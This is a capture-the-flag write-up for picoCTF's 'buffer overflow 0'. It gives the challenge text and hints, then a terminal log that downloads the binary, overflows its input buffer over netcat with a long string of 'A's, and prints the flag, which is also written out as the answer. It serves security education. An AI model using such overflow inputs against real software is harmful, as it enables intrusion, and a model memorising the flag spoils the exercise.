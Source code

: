 ## buffer overflow 0

# objetivo
- Smash the stack Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/520/vuln). You can view source [here](https://artifacts.picoctf.net/c/520/vuln.c). And connect with it using: `nc saturn.picoctf.net 53935`

---

# Hints
- How can you trigger the flag to print?
- If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.
- Run `man gets` and read the BUGS section. How many characters can the program really read?

# solucion
``` bash 
(kali㉿kali)-[~]
└─$ mkdir binary
                                                         
┌──(kali㉿kali)-[~]
└─$ cd binary   
                                                         
┌──(kali㉿kali)-[~/binary]
└─$ wget https://artifacts.picoctf.net/c/520/vuln
--2022-11-25 11:52:11--  https://artifacts.picoctf.net/c/520/vuln
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 65.9.149.57, 65.9.149.85, 65.9.149.62, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|65.9.149.57|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16016 (16K) [application/octet-stream]
Saving to: ‘vuln’

vuln           100%  15.64K  --.-KB/s    in 0.02s       

2022-11-25 11:52:11 (844 KB/s) - ‘vuln’ saved [16016/16016]

(kali㉿kali)-[~/binary]
└─$ wget https://artifacts.picoctf.net/c/520/vuln.c
--2022-11-25 11:55:00--  https://artifacts.picoctf.net/c/520/vuln.c
Resolving artifacts.picoctf.net (artifacts.picoctf.net)... 65.9.149.57, 65.9.149.62, 65.9.149.85, ...
Connecting to artifacts.picoctf.net (artifacts.picoctf.net)|65.9.149.57|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 808 [application/octet-stream]
Saving to: ‘vuln.c’

vuln.c         100%     808  --.-KB/s    in 0s          

2022-11-25 11:55:01 (7.99 MB/s) - ‘vuln.c’ saved [808/808]

                                                         
┌──(kali㉿kali)-[~/binary]
└─$ nc saturn.picoctf.net 53935
Input: ataaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
                                                         
┌──(kali㉿kali)-[~/binary]
└─$ nc saturn.picoctf.net 53935
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}

```
# bandera
- picoCTF{ov3rfl0ws_ar3nt_that_bad_a065d5d9}